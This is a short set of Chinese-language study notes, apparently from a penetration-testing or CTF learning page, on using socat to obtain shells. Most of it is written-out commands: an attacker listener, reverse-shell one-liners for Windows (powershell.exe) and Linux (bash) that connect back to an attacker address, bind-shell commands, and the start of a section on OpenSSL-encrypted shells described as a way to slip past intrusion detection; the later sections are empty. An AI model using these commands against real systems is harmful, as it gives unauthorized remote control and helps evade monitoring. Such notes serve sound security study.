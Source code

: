 强化版nc。但默认一般都没安装，且语法较难。理解 socat 的最简单方法是作为两点之间的连接器。

### 基础语法

#### 反弹shell

**攻击机监听：**  
`socat TCP-L:<port> -`。不稳定，等效于 `nc -lvnp <port>`。

- 两点：监听端口和标准输入。
- TCP：可当做命令的一部分（基本都会用到）
- -L：指listener
- -：也是一个option

**Windows目标：**  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

> The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

**Linux目标：**  
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

#### 绑定shell

**Windows目标：**  
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

> the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

**Linux目标：**  
`socat TCP-L:<PORT> EXEC:"bash -li"`

**攻击机连接：**  
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`


### 进阶语法

#### 强大用途之一：完全稳定的Linux tty 反弹shell



#### 创建加密shell

除非有密钥否则无法被侦测——绕IDS。

即把基础语法命令行的 `TCP` 替换为 `OPENSSL`。

1. 关于证书（certificates）

首先，要在攻击机生成证书。







## Windows
